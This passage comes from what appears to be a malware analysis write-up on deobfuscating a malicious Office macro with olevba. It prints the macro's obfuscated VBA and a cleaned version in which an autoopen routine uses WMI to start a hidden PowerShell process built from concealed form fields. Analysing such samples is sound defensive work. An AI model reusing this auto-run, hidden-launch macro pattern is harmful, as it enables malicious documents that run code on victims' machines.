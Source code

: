 I took a look at the `olevba` documentation and learned about the `--reveal`
experimental feature. In this case, it worked well and this feature cleaned the
code a bit. It was still obfuscated, but less weird (output below truncated):

```
Attribute VB_Name = "zC7wlka"
Sub K9hj1nG()
   Debug.Print "724516UPOp3Hrt23361vC9PPmCKrjITKvEv"
Debug.Print "20994u_8YY68791454rbk4PQHiqapjj9"
Debug.Print "942653pqQI0T2226126N7OT4kZ6j2ENjS"
   Debug.Print "387127wjf7biL2064nE0OG8GNXHVKT"
Debug.Print "255590kPaztnd9626534nc7FkKVitIImYJ"
Debug.Print "763124lLo5VRP611629tJnnqaEPdjCjRp"
End Sub
Sub autoopen( )
   Debug.Print "588496Bn5Mps680785i9QMw62Vw29iIrvf"
Debug.Print "984870ZavHKq723615HYijaGWMHILLpV"
Debug.Print "58974piKRd2450645jwOkskOoIvNiL"
lc8cJsPt
   Debug.Print "860836EYdLCWj544391w0whi5Mmcto3"
Debug.Print "12319b1Pp9wzc397829Xozjntl2HkNCop"
Debug.Print "826309uz3s8R5980Z6jEJwMSGtCq"
End Sub

[...]
```

I went ahead and manually cleaned the code even more, but I had two references
to a OLE "thing" named `Swlfot9` that I could decode. I knew it had
something to do with [PowerShell](https://en.wikipedia.org/wiki/PowerShell)
given the `"powe"` string but I could not find anything else...

```
Attribute VB_Name = "zC7wlka"

Sub autoopen()
	lc8cJsPt
End Sub

Sub lc8cJsPt()
	Set Win32ProcessstartupObj = GetObject("winmgmts:Win32_ProcessStartup")
	Win32ProcessstartupObj.ShowWindow = 0

	Set Win32ProcessObj = GetObject("winmgmts:Win32_Process")
    Win32ProcessObj.Create "powe" + Swlfot9.FbFMIBR + Swlfot9.bLJAPOF,
	Null,
	Win32ProcessstartupObj,
	ProcessId
End Sub
```

I saw the name `Swlfot9` in the very first `olevba` output, though, so I knew
that something was still there, but I could just not see it. I tried some other
oletools but it was a dead-end...
